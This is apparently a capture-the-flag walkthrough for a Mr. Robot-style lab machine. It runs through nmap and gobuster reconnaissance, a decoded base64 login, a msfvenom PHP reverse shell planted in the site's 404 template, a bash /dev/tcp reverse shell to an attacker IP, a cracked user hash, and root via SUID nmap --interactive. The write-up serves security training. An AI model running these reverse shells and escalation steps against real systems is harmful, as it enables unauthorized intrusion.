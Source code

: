 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/cb1c3fb3-2973-4fcd-b957-9ffec2337fb1"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/5223b9fb-f5d2-4f5f-b961-af45d26dec7e"></picture></h1>

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/6509eeef-95c5-43e2-8b41-9294a4206893)

## **PORT 80**
![image](https://github.com/user-attachments/assets/4d0ea598-172c-4067-b1d5-8965d718abcb)

## **PORT 443**
![image](https://github.com/user-attachments/assets/69575dea-cc05-4273-bb14-422b2f5b3a88)

## **Identifying the technologies, servers, and applications that make up the web**
```bash
whatweb http://10.10.223.160
```
![image](https://github.com/user-attachments/assets/f44e3359-cc74-4743-b2c9-c5f3c9e20e4b)
We did not find anything that could help us

## **Fuzzing Web**
```bash
gobuster dir -u http://10.10.223.160/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/94c3631c-3f7b-4928-8f52-f9dfbcdd46a9)

![image](https://github.com/user-attachments/assets/3ef2f037-22b6-4065-8eea-bfa7f011dcd9)

![image](https://github.com/user-attachments/assets/95c7db88-bd00-45b9-8c20-009bb548f3b4)

![image](https://github.com/user-attachments/assets/572806d5-12db-440e-88a4-16a6e1785266)

![image](https://github.com/user-attachments/assets/090c0dae-5803-4d51-a495-3a4d453d7dd8)
![image](https://github.com/user-attachments/assets/959d45f4-1b81-484e-975c-ae19f5b99582)<br>
![image](https://github.com/user-attachments/assets/c17c5f8b-fb24-4b15-9f33-20ce7e32b5fb)

## **We found several hidden pages, but in one we found a hash64**
```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/e5b4b107-1390-43e1-b5d5-653e80accca0)<br>
elliot:ER28-0652<br>
![image](https://github.com/user-attachments/assets/6af5ebc6-25f7-439c-9cd1-0b48cd970cfe)

## **We are going to modify a part of the web in this case the error 404 that when entering a site that does not exist, a code that we will create will be executed and it will return a shell that we will intercept later.**
![image](https://github.com/user-attachments/assets/4bf0c610-9e79-4be4-8b80-c4b3e426c666)

## **Creating the malicious code**
```bash
msfvenom -p php/reverse_php LHOST=10.21.118.81 LPORT=443 -f raw > pwned.php
```
![image](https://github.com/user-attachments/assets/ac8a757b-69b4-47b9-828e-487ea520472a)

## **the code created inside the pwned.php file will be copied into the error 404 page**
![image](https://github.com/user-attachments/assets/045a6510-9a06-4f5a-95e3-0fdb756f7b8b)

## **we go into listening mode **
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/d9fac086-7c71-4b2f-9a82-da79777f6e87)<br>

## **we open a website that does not exist**
![image](https://github.com/user-attachments/assets/0160a91f-8439-4866-aff0-03daae79b264)
![image](https://github.com/user-attachments/assets/b4c10518-86b2-4d94-8bce-f5186cfe7066)

```bash
bash -c "sh -i >& /dev/tcp/10.21.118.81/444 0>&1"
```
![image](https://github.com/user-attachments/assets/8f90a8bd-4599-4582-99a8-6968ea941ccf)

```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/0a5e6e27-269b-44ea-a313-8ea4fa2bb47b)

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://github.com/user-attachments/assets/1f703ba1-e294-4744-b456-e12e5701bbbc)

![image](https://github.com/user-attachments/assets/e55247dd-9190-4e58-afa8-6b7ce096c5cd)
robot:c3fcd3d76192e4007dfb496cca67e13b


![image](https://github.com/user-attachments/assets/b28ef771-3125-4e09-ae60-1889ff2224c3)
abcdefghijklmnopqrstuvwxyz

```bash
su robot
```
![image](https://github.com/user-attachments/assets/a500ac2d-0610-47b0-94e3-db17136edf65)

```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/096f03b1-c457-433a-be53-5191ba3a2ec7)

![image](https://github.com/user-attachments/assets/4f1dc63c-4f4c-47f3-898e-399dd036bb9a)

```bash
nmap --interactive
```
![image](https://github.com/user-attachments/assets/4ac2840d-ec78-4792-b939-1d5953ec795d)

```bash
!sh
```
![image](https://github.com/user-attachments/assets/50fcc1fd-b59d-496a-8ab0-a2dab7a681b1)








